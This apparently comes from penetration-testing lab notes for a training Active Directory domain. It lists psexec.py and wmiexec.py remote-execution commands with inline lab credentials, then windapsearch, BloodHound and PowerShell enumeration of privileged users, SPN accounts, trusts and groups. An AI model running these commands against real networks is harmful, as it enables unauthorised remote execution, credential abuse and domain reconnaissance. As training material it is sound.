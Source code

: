 ```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

## Windapsearch 

#### Domain Admins

    python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo

#### Windapsearch - Privileged Users

`python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo`

## BloodHound

`$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.`

# Credentialed Enumeration - from Windows
#### Discover Modules

```powershell-session
PS C:\htb> Get-Module
```

#### Load ActiveDirectory Module

```powershell-session
PS C:\htb> Import-Module ActiveDirectory
PS C:\htb> Get-Module
```

#### Load ActiveDirectory Module

```powershell-session
PS C:\htb> Import-Module ActiveDirectory
PS C:\htb> Get-Module
```
#### Get-ADUser

```powershell-session
PS C:\htb> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
#### Checking For Trust Relationships

```powershell-session
PS C:\htb> Get-ADTrust -Filter *
```
#### Group Enumeration

```powershell-session
PS C:\htb> Get-ADGroup -Filter * | select name

```
#### Detailed Group Info
